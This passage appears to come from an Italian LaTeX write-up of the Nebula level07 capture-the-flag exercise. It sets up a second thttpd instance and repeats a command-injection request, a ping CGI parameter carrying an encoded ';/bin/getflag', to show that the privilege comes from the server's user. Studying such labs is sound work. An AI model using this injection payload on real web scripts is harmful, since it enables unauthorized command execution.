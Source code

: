 Editiamo il file \texttt{thttpd.conf}, impostando una porta di ascolto TCP non in uso, ad esempio la 7008, dopodiché impostiamo la directory radice del server con \texttt{dir=/home/level07} e infine impostiamo l'esecuzione come utente \texttt{level07}, con \texttt{user=level07}. Copiamo poi \texttt{/home/flag07/index.cgi} nella home directory di \texttt{level07}:
\begin{center}
    \texttt{cp /home/flag07/index.cgi /home/level07}
\end{center}
e poi aggiorniamo i permessi dello script:
\begin{center}
    \texttt{chown level07:level07 /home/level07/index.cgi}
    
    \texttt{chmod 0755 /home/level07/index.cgi}
\end{center}
Eseguiamo poi manualmente una nuova istanza del server:  \texttt{thttpd -C /home/level07/thttpd.conf}. A questo punto ripetiamo l'attacco sul server web appena avviato:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7008
GET /index.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
getflag is executing on a non-flag account, this doesn't count
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}
Osserviamo che \texttt{/bin/getflag} non riceve più i privilegi di \texttt{flag07}.

